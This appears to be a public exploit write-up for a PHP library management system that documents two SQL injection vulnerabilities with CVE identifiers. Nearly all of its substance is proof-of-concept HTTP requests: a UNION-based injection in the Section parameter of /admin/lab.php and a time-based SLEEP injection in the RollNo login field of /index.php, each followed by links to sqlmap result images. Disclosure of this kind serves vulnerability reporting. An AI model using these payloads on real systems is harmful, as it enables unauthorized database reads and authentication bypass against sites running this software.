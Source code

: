 ### Exploit Title: Library Management System with QR code Attendance and Auto Generate Library Card - Multiple SQL injections
### Date: 2022-07/20
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
### Version: 1.0
### Tested on: windows10 + phpstudy


# 1./admin/lab.php(CVE-2022-2491)
/lab.php SQL injection exists for parameter Section

### Sample request POC #1

```
POST /admin/lab.php HTTP/1.1
Host: [IP:PORT]
Connection: close
Content-Length: 208
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: null
Sec-Fetch-Site: none
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

submit=1&Section=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x71716b7171,0x546e4444736b7743575a666d4873746a6450616261527a67627944426946507245664143694c6a4c,0x7162706b71),NULL,NULL,NULL,NULL#&Status=1
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16583071067058.png "Library Management System with QR code Attendance and Auto Generate Library Card")


# 2./index.php(CVE-2022-2492)
/index.php SQL injection exists for parameter RollNo

### Sample request POC #2

```
POST /index.php HTTP/1.1
Host: www.l-ms.com
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 111

RollNo=admin' AND (SELECT 2625 FROM (SELECT(SLEEP(5)))MdIL) AND 'KXmq'='KXmq&Password=1231312312&signin=Sign In
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16583074181046.png "Library Management System with QR code Attendance and Auto Generate Library Card")


